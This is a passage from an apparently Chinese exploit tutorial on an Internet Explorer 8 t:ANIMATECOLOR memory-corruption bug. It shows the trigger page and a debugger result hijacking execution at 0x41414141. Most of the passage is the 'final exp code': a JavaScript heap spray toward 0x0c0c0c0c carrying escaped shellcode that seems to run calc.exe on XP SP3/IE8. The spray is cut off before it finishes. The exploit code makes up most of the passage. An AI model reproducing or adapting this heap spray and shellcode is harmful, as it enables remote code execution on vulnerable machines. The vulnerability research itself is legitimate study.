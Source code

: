 ```
 f1.innerHTML="";
 CollectGarbage();
 try `{`
 //使用 t:ANIMATECOLOR 标签可以自由设置其内容，控制对象大小
 a = document.getElementById('myanim');
 a.values = animvalues;
 `}`
 catch(e) `{``}`
`}`
&lt;/script&gt;
&lt;/head&gt;
&lt;body onload="eval(helloWorld());"&gt;
&lt;t:ANIMATECOLOR id="myanim"/&gt;
&lt;/body&gt;
&lt;/html&gt;
```



使用ie 访问页面,调试器附加到 ie上，

[![](https://p3.ssl.qhimg.com/t01b2062e9179aabb62.png)](https://p3.ssl.qhimg.com/t01b2062e9179aabb62.png)

可以看到程序执行到了　0x41414141 处，我们成功劫持了程序的执行流程．下面不考虑　dep 的话，直接在漏洞触发代码前面使用一个　ie8的堆喷射脚本，在修改下指针控制的值为　0x0c0c0c0c,我们就能实现代码执行了．最终的exp 代码如下：



```
&lt;!doctype html&gt;
&lt;HTML XMLNS:t ="urn:schemas-microsoft-com:time"&gt;
&lt;head&gt;
&lt;meta&gt;
 &lt;?IMPORT namespace="t" implementation="#default#time2"&gt;
&lt;/meta&gt;
&lt;script&gt;
 // [ Shellcode ]
var shellcode = unescape(
"%ue8fc%u0089%u0000%u8960%u31e5%u64d2%u528b%u8b30" +
"%u0c52%u528b%u8b14%u2872%ub70f%u264a%uff31%uc031" +
"%u3cac%u7c61%u2c02%uc120%u0dcf%uc701%uf0e2%u5752" +
"%u528b%u8b10%u3c42%ud001%u408b%u8578%u74c0%u014a" +
"%u50d0%u488b%u8b18%u2058%ud301%u3ce3%u8b49%u8b34" +
"%ud601%uff31%uc031%uc1ac%u0dcf%uc701%ue038%uf475" +
"%u7d03%u3bf8%u247d%ue275%u8b58%u2458%ud301%u8b66" +
"%u4b0c%u588b%u011c%u8bd3%u8b04%ud001%u4489%u2424" +
"%u5b5b%u5961%u515a%ue0ff%u5f58%u8b5a%ueb12%u5d86" +
"%u016a%u858d%u00b9%u0000%u6850%u8b31%u876f%ud5ff" +
"%uf0bb%ua2b5%u6856%u95a6%u9dbd%ud5ff%u063c%u0a7c" +
"%ufb80%u75e0%ubb05%u1347%u6f72%u006a%uff53%u63d5" +
"%u6c61%u2e63%u7865%u0065");
 var fill = unescape("%u0c0c%u0c0c");
 while (fill.length &lt; 0x1000)`{`
 fill += fill;
 `}`
 // [ padding offset ]
 padding = fill.substring(0, 0x5F6);
 // [ fill each chunk with 0x1000 bytes ]
 evilcode = padding + shellcode + fill.substring(0, 0x800 - padding.length - shellcode.length);
 // [ repeat the block to 512KB ]
 while (evilcode.length &lt; 0x40000)`{`
 evilcode += evilcode;
 `}`
 // [ substring(2, 0x40000 - 0x21) - XP SP3 + IE8 ]
 var block = evilcode.substring(2, 0x40000 - 0x21);
 // [ Allocate 200 MB ]
```